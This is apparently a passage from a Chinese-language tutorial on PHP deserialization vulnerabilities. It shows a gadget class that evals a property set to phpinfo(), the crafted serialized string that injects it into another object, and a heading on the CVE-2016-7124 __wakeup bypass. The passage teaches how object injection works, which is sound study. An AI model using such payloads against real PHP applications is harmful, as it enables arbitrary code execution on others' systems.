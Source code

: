 ```

class Test9
{
	public $str = "phpinfo();";  // 修改str属性为 phpinfo();

	public function run()
	{
		eval($this->str);  //执行恶意代码
	}
}

$demo = new Test7();
echo serialize($demo);
```
得到恶意反序列化字符串：

```
O:5:"Test7":1:{s:7:"project";O:5:"Test9":1:{s:3:"str";s:10:"phpinfo();";}}
```

利用此字符串触发漏洞：

![](/uploads/Test8.png)

#### 魔法方法__wakeup绕过引发的安全限制绕过问题(CVE-2016-7124)
这个问题属于PHP本身的Bug。

